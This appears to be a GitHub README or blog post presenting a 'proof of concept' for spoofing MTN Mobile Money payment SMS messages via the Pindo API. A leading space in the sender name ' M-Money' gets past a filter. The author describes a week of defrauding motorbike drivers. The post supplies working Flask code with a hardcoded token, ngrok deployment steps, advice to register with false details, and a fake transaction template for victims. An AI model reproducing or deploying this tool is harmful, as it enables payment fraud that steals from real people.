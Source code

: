 # Proof of concept 

Hy all I Hope you're doing Great! I've got some wild news to share about the Pindo API that'll probably blow your mind. 🔥
but first i have to clear one thing out. this is for educational purposes only .. don't attempt to do something funny or you will get arrested.

So While diving deep into the tech ocean, I stumbled upon something that had me raising an eyebrow. It turns out that there's this ninja-like way users can play around with the system. By sneaking in spaces before or after a company name in messages, it's like a digital cloak that can turn anyone into a master of disguise. Cool, right?

But wait, it gets even cooler. I went ahead and put this thing to the test. Sent some money via MTN Mobile Money and guess what? The name checking seems to be on a coffee break. I kid you not, I’ve been moving around sending money to people back and forth to check if the whole thing works .. for a whole week its like I have a money tank or something 😂😂😂😂😂😂… the easiest target was motorbikes of course .. this thing was intoxicating.. Because they’re the ones who only check for the amount money that was received but never open the whole message 😆.. I don’t know why they appealed to me like an easy terget tbh. 😎

But fear not, the good news is, I've got your back. I've done some digging, and MTN's firewall seems to be on the lookout for messages that scream "M-Money." That's where the magic happens to put it simply mtn's firewall rules are only set to detect message that has exactly "M-Money" as message title . Toss in a sly space, like "M-Money " and you're basically a mobile money wizard. Seriously, it's like you've sent money to someone without even breaking a sweat.

Now, here's where the plot thickens. It's a slick move for folks who've got places to be and only peek at their messages and the cash flow. Caught a few curious cats, though, ones who've got an eye for detail. Can't fool everyone, right? 😄

Now, I'm not just here to tease you with tech tales. I've got something in store. I've whipped up a POC, a proof of concept, that'll show you this slick space trick in action. The repo is all set and ready to rumble on GitHub. Check it out and let me know what you think.

```python
from flask import Flask, render_template, request, redirect, flash
from flask_wtf import FlaskForm
from wtforms import StringField, TextAreaField
from wtforms.validators import DataRequired
from flask_sqlalchemy import SQLAlchemy
import requests

app = Flask(__name__)
app.config['SECRET_KEY'] = 'idontdrinkmyownpee'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///messages.db'  # Use SQLite database
db = SQLAlchemy(app)

class SMSForm(FlaskForm):
    numbers = StringField('Phone Numbers (comma-separated)', validators=[DataRequired()])
    message = TextAreaField('Message', validators=[DataRequired()])

class Message(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    numbers = db.Column(db.String(255), nullable=False)
    message = db.Column(db.String(255), nullable=False)

PINDO_API_TOKEN = 'eyJhbGciOiJub25lIn0.eyJpZCI6OTgyLCJyZXZva2VkX3Rva2VuX2NvdW50IjowfQ.'

@app.route('/', methods=['GET', 'POST'])
def send_sms():
    form = SMSForm()

    if form.validate_on_submit():
        numbers = form.numbers.data
        message = form.message.data

        numbers_list = [num.strip() for num in numbers.split(',')]

        headers = {'Authorization': 'Bearer ' + PINDO_API_TOKEN}
        url = 'https://api.pindo.io/v1/sms/'

        with app.app_context():  # Enter the application context
            for number in numbers_list:
                data = {'to': number, 'text': message, 'sender': ' M-Money'}
                response = requests.post(url, json=data, headers=headers)

                print(f'Sending to {number}: {response.status_code}')

                # Store the sent message in the database
                new_message = Message(numbers=number, message=message)
                db.session.add(new_message)
                db.session.commit()

            flash('SMS sent successfully!', 'success')
            return redirect('/')

    return render_template('index.html', form=form)

if __name__ == '__main__':
    with app.app_context():  # Enter the application context
        db.create_all()  # Create database tables
    app.run(debug=True)
```

you can use my pindo api token for configuration but you can easily get your token when you sign in … matter of fact you don’t even have to use legitimate information … as long as you have a google account you’re good to go when you sign in to pindo you check your profile for the token and use the same token but its worth checking it out explore yourself 
then then when you run `python3 app.py` considering that you’ve name your app app.py
it runs locally on address 172.0.0.1:5000 on port 5000 because flasks projects typically runs on port 5000

and then to make the app available to the internet by port forwarding manually or use this tool(NGROK) i used ngrok of course am not gonna talk about it but you can get an account right now if you have google account [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup) you can also create ngrok accoung to get their token for free without providing your personal deatails and here’s the link to download it using git clone [https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz](https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz) .. after downloading you check the file type and unzip it using gzip -d “filename” and when the unzip is done the file will come with .tar extension use tar xvf to unarchive it . and then run
`ngrok config add-authtoken "token"`  you’ll use your personal token and after configuring you run it with ./ngrok http 5000 and when you its fully operational you can copy the link provided and paste it in your browser address and then you see something like this and then you make ngrok run on the same project run on port 5000 as soon as you the local application is on the internet you get an url you input in your browser for sending messages and now when you send the message its like this …..

i used this template as a message 

`You have received 20000 RWF from UWERA MARIE CLAIRE (*********876) on your mobile money account at 2023-08-10 03:27:39. Message from sender: 1. Your new balance: 2018 RWF. Loyalty fee was 0 and loyalty reward was 0. Promotion was 0. Financial Transaction Id: 10438338079.`

of course you edit the message to make it look legitimate and when you hop on off the bike you send your imaginary money then you’re good to go.
thats was cool right?

Happy hacking.
